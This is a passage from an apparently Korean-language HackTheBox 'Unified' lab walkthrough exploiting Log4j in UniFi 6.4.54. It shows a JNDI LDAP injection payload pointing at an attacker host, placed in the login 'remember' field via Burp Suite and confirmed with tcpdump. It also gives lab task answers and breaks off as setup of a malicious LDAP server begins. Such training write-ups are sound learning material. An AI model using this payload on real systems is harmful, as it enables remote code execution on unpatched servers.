 열심히 구글링했더니 UniFi 6.4.54의 취약점을 설명한 게시글을 찾았다.

로그인 요청할 때 `remember` 데이터 값이 Log4j에 취약하다고 되어있다.

https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi

LDAP 서버를 사용하기 위해 우선 tcpdump로 패킷을 확인한다.

burpsuite를 실행해 로그인 데이터를 인터셉트하여 Log4j 취약점 코드 `"${jndi:ldap://<IP>/o=tomcat}"`를 입력한다.

![burp](https://github.com/jasperkim425/Walkthrough/blob/main/HackTheBox/Starting%20Point/Unified/image/burp.png)

패킷이 확인되었으니 UniFi 6.4.54 가 취약하다는 것이 명확해졌다.

![tcpdump](https://github.com/jasperkim425/Walkthrough/blob/main/HackTheBox/Starting%20Point/Unified/image/tcpdump.png)

* Task 7 | What port do we need to inspect intercepted traffic for?

> 389

* Task 8 | What port is the MongoDB service running on?

> 27117

이제 악성 LDAP 서버를 설치한다. openjdk-11-jre 사용을 위해 maven 모듈도 같이 설치한다.
